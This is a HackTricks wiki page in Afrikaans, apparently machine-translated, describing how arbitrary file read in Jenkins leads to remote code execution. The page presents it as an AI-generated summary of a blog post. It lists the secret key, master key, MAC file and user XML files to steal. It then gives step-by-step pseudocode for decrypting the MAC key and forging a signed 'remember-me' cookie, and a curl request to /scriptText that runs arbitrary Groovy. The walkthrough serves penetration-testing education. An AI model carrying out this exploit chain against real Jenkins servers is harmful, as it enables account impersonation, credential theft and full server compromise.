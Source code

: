 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie blogpos is dit moontlik om 'n wonderlike manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n AI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Vereistes

* **Kenmerk Vereiste:** "Remember me" moet geaktiveer wees (standaard instelling).
* **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
* **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasie Proses

#### Stap 1: Data Versameling

**Gebruiker Inligting Herwinning**

* Toegang tot gebruiker konfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
* **Gebruikersnaam**
* **Gebruiker saad**
* **Tydstempel**
* **Wagwoord hash**

**Geheime Sleutel Uittrekking**

* Trek kriptografiese sleutels uit wat gebruik word om die koekie te teken:
* **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
* **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
* **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Vervalsing

**Token Voorbereiding**

*   **Bereken Token Vervaldatum:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Voeg een uur by die huidige tyd
```
{% endcode %}
*   **Konkateer Data vir Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Sleutel Ontsleuteling**

*   **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

*   **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac)  // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

*   **Genereer Finale Koekie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodeer die koekie data
```
{% endcode %}

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

* **Haal CSRF en Sessie Tokens:**
* Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
* Vang `JSESSIONID` uit die antwoord, wat saam met die remember-me koekie gebruik sal word.

**Opdrag Uitvoering Versoek**

*   **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
